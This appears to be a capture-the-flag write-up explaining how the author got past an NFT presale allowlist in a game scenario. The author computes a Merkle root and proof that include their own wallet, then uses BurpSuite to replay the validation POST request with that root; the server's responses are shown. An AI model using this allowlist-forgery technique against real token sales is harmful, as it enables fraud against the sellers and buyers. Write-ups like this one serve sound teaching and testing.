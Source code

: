 ```yaml
---
sidebar_position: 3
---
```


# Exploit a Smart Contract

## Set up QPetabyte's Merkle Trees tool

```bash
git clone https://github.com/QPetabyte/Merkle_Trees
cd Merkle_Trees
docker build -t merkletrees .
docker run -it --rm --name=merkletrees merkletrees
```

### Setup merkle_tree.py script

This script needs a list of wallets to put on the allowlist in order to calculate the root value. My theory is that I put my wallet ID in as the first entry and then fill up with addresses found on the NFT gallery page: 

```python
# allowlist = ['0x1337133713371337133713371337133713371337','0x0000000000000000000000000000000000000000']

allowlist = [
    "0xB32428966dcDAF5F4C6715492EB1871971db1D9B",
    "0xa1861E96DeF10987E1793c8f77E811032069f8E9",
    "0xb9aA688bB7A1B085f307bf9a11790BFD24C5D5C2",
    "0xc249927fb81bde4eA7B9Dc9e4c9E6F503F147fe2",
    "0x8153e0E5cabC22545A1fe4d0149C2Fdc486A8ad8",
    "0x7F7cAA97b73fD38d6740e59C159428509eE00082",
    "0x214Fee463D58D21954e75bdD93c386414e71A985",
]
```

Then run this tool:

```bash
$ python3 merkle_tree_new.py 

Root: 0x6394202d86193e1238566ddbe62f3b193f9122f746b6c281a13096a2b41aaeed
"0x0eeb229810d8a228636f88aa5ca05da0dbdeef0724017e8a81d06102aeacd974,0x78f9dc3d11e163c5302eb40c168a191888654297aaacf51bcddd089879f7f4ea,0xce8e5c755c18839416c96c002602346ba00220d2c35d77a674c7145a230419c5"
```

### HTTP Post validate adress on list 

I used BurpSuite proxy for this and Repated the sniffed POST request once edited with correct values

```python
{
	"WalletID":"0xB32428966dcDAF5F4C6715492EB1871971db1D9B",
	"Root":"0x6394202d86193e1238566ddbe62f3b193f9122f746b6c281a13096a2b41aaeed",
	"Proof": "0x0eeb229810d8a228636f88aa5ca05da0dbdeef0724017e8a81d06102aeacd974,0x78f9dc3d11e163c5302eb40c168a191888654297aaacf51bcddd089879f7f4ea,0xce8e5c755c18839416c96c002602346ba00220d2c35d77a674c7145a230419c5",
	"Validate":"true",
	"Session":"f813731a-dd84-4188-ae18-df23149cdbc2"
}
```

Got the following feedback from server

```python
{"Response": "You're on the list and good to go! Now... BUY A SPORC!"}
```

### Prepaying 

![Teller machine](/img/burning-ring/smart-contract-1.png)

![Teller menu](/img/burning-ring/smart-contract-2.png)

![Preparing payment](/img/burning-ring/smart-contract-3.png)

![Payment done](/img/burning-ring/smart-contract-4.png)

### Paying for NFT

Reusing the HTTP POST request as used in "HTTP Post validate address on list", but altering parameter "Validate" to "false" (still using BurpSuite):

```python
{
	"WalletID":"0xB32428966dcDAF5F4C6715492EB1871971db1D9B",
	"Root":"0x6394202d86193e1238566ddbe62f3b193f9122f746b6c281a13096a2b41aaeed",
	"Proof": "0x0eeb229810d8a228636f88aa5ca05da0dbdeef0724017e8a81d06102aeacd974,0x78f9dc3d11e163c5302eb40c168a191888654297aaacf51bcddd089879f7f4ea,0xce8e5c755c18839416c96c002602346ba00220d2c35d77a674c7145a230419c5",
	"Validate":"false",
	"Session":"f813731a-dd84-4188-ae18-df23149cdbc2"
}
```

Response:

```python
{
	"Response": "Success! You are now the proud owner of BSRS Token #000234. You can find more information at https://boredsporcrowboatsociety.com/TOKENS/BSRS234, or check it out in the gallery!<br>Transaction: 0x4cd5d6458d1c1a430c07e410a58f79d660125ff8f2e9ab2032aa9be2112ad6b3, Block: 69095<br><br>Remember: Just like we planned, tell everyone you know to <u><em>BUY A BoredSporc</em></u>.<br>When general sales start, and the humans start buying them up, the prices will skyrocket, and we all sell at once!<br><br>The market will tank, but we'll all be rich!!!"}
```

Apparently I bought this NFT:

![My NFT](/img/burning-ring/BSRS234.png)